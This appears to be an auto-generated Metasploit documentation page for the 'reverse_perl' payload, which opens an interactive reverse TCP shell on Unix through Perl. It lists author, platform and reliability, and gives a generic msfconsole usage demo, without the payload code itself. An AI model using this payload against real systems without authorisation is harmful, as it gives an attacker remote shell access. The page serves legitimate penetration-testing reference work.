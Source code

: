 ## Unix Command Shell, Reverse TCP (via Perl)

Creates an interactive shell via perl


## Module Name
payload/cmd/unix/reverse_perl

## Authors
cazz





## Platforms
unix

## Reliability
[Normal](https://github.com/rapid7/metasploit-framework/wiki/Exploit-Ranking)

## Demo

```
msf > use payload/cmd/unix/reverse_perl
msf payload(reverse_perl) > show targets
   ... a list of targets ...
msf payload(reverse_perl) > set TARGET <target-id>
msf payload(reverse_perl) > show options
   ... show and set options ...
msf payload(reverse_perl) > run
```
    
    